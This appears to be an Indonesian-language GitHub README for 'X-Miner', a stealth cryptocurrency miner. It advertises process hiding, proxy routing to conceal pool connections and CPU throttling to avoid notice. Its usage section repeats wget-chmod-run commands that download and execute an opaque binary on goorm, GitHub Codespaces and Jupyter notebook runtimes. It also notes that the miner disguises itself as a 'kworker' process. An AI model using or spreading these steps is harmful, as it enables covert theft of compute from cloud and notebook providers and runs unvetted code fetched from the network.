 # 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.goorm

wget https://github.com/onanio/HR1/raw/refs/heads/main/x

# Beri izin eksekusi
chmod +x x

# Jalankan aplikasi
./x

2.codespace

wget https://github.com/onanio/HR1/raw/refs/heads/main/x

# Beri izin eksekusi
chmod +x x

# Jalankan aplikasi
./x

3. runtime notebook/jupyter

wget https://github.com/onanio/HR1/raw/refs/heads/main/x

# Beri izin eksekusi
chmod +x x

# Jalankan aplikasi
./x

#Ket : 
1. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas
2. jika proses kworker tidak berjalan, berarti belum ada wroker yang aktif (proses gagal)
3. proses berhasil runing bisa dilihat dengan munculnya prosess yang di tandai merah di htop
![Screenshot Running](https://raw.githubusercontent.com/xploit-miner/ER1/main/img/shtoprun.JPG)
